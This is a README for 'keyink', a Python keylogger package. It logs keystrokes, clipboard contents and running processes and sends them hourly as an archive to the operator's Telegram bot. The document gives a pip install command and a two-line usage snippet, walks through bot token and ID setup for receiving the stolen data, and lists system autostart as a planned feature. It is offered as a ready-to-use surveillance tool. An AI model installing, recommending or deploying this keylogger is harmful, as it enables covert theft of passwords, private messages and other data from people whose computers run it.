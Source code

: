 [![made-with-python](https://img.shields.io/badge/Made%20with-Python-1f425f.svg)](https://www.python.org/)

# keyink

The keylogger in just 2 lines. Sending to Telegram.

## Description
`keyink` is just starting its development. Its functionality will be expanded in the future.

## Navigation
* [Current features](#Сurrent-features)
* [Future features](#Future-features)
* [Installation](#Installation)
* [Example usage](#Example-usage)
  * [Standard](#Standard)
* [Telegram bot setup](#Telegram-bot-setup)
  * [Getting token](#Getting-token)
  * [Getting id](#Getting-id)

### Current features
1. Logging of keyboard, clipboard, running processes.
2. Sending collected data as an archive to Telegram.
3. Running in a separate thread.

### Future features
1. Adding other loggers.
2. Adding to the system autostart.
 
## Installation

You can install the latest version with the command:
```
pip install keyink==0.0.1
```

## Example usage
### Standard
```python
from keyink.multilogger import Logger

Logger(token="YOUR_TOKEN", user_id=YOUR_ID).run()
```
The standard ```Logger``` launches all available loggers and sends the collected data as an archive to you in Telegram every hour.

Transmitted parameters:
* `token` - bot's Telegram token.
* `user_id` - your Telegram id.
* `keyboard` - add keyboard logger (True/False).
* `clipboard` - add a clipboard logger (True/False).
* `processes` - add process logger (True/False).
* `special_keys` - add special keys Enter, Shift, Alt etc. to logs (True/False).
* `pause_iteration` - check frequency of running processes in seconds.
* `sleep` - frequency of sending collected logs in seconds.

## Telegram bot setup
### Getting token
1. Open a chat with [BotFather](https://t.me/botfather).
2. Write the command ```/newbot```.

<p align="left">
  <a href="">
    <img src="_1.png" width="500px" style="display: inline-block;">
  </a>
</p>

3. Write the name of the bot, then the nickname with the attribute ```_bot``` at the end.

<p align="left">
  <a href="">
    <img src="_2.png" width="500px" style="display: inline-block;">
  </a>
</p>

4. Insert the resulting token into the ```YOUR_TOKEN``` field in the script.

### Getting id
1. Open a chat with [Get My ID](https://t.me/getmyid_bot).
2. Write the command ```/start```.

<p align="left">
  <a href="">
    <img src="_3.png" width="500px" style="display: inline-block;">
  </a>
</p>

3. Insert the resulting ID into the ```YOUR_ID``` field in the script.
